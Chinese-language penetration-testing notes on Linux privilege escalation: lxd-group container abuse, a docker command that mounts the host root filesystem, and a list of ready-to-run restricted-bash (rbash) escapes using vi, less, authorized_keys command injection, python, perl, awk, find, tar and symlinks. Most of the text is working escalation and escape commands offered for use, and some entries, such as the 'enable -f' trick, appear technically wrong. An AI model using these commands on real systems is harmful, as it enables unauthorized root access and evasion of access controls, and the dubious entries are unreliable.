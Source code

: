 # lxd,docker,rbash

# lxd容器
提权条件:
以获得shell
用户属于lxd组(id查看)
也可用LinEnum脚本探测
![](vx_images/539149065512448.png)
步骤:创建容器,挂载磁盘,进入容器,进入目录提权


# docker(提权)---也就是利用docker容器外部提权,不是逃逸(逃逸有可能需要容器的root)
条件:用户权限是否在docker组中(id)
docker run -v /:/mnt -it alpine


# Rbash（Restricted Shell）
RBash 的限制机制
RBash 通常会限制以下操作：
cd 命令（无法切换目录）
设置/修改环境变量（如 PATH, SHELL）
使用绝对路径或包含 / 的命令
执行特定危险命令（如 ssh, vim）
重定向操作符（>, <, |）

usermod -s /bin/rbash user(对用户进行rbash限制)

绕过:
1. ​利用 Shell 内置命令
```
echo $PATH        # 查看当前 PATH
PATH=$PATH:/bin   # 添加 /bin（某些场景可修改）
```

2. ​利用程序逃逸功能
支持交互式命令的程序（如文本编辑器）：
```
# 使用 vi/vim
vi
:set shell=/bin/bash
:shell   # 获得完整 bash

# 使用 less/more
less /etc/passwd
! /bin/bash   # 启动新 shell
```

3. ​SSH 命令注入
通过 authorized_keys 注入命令（需写权限）：
```
# 在 authorized_keys 添加：
command="export PATH=/bin:$PATH; bash" ssh-rsa AAAAB3Nza...
```
4. ​编程语言解释器
```
# Python
python -c 'import os; os.system("/bin/bash")'

# Perl
perl -e 'exec "/bin/bash"'
```

5. ​环境变量污染
```
# 覆盖 SHELL 变量（某些实现有效）
export SHELL=/bin/bash
bash
```
6. ​符号链接与文件操作
```
# 创建符号链接
ln -s /bin/bash /tmp/breakout
/tmp/breakout   # 执行
```

7. ​命令欺骗
```
# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find . -exec /bin/bash \;
```



8. ​内置命令绕过
```
# 使用 enable 命令重载
enable -f /bin/bash bash
bash
```
9. ​压缩工具逃逸
```
# 使用 tar
tar -cf /dev/null /dev/null --use-compress-program /bin/bash
```

